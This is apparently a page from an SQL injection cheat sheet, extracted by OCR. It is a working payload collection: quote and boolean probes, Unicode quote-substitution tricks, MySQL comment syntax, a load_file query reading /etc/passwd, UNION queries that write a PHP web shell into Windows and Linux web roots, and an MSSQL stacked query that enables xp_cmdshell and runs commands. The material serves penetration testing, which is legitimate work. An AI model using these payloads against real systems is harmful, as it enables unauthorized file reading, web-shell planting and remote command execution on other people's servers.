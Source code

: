 ```bash
' 'DERP
'%20'HERP
'%2B'HERP

Logic Testing

page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false

Weird characters

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")
Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```


### MYSQL Comments
-- - Note the space after the double dash
/* MYSQL Comment */
/*! MYSQL Special SQL */
/*!32302 10*/ Comment for MYSQL version 3.23.02

-- - to emphasize space

### Load files using SQLi
```bash
UNION SELECT 1, load_file(/etc/passwd) #

http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
```

### Write files using SQLi

```bash

#dont forget to encode

http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'

http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
```

### EXEC shell in MSSQL

```powershell

# inject as a stacked query

12345'; EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:'  -- pFml

```

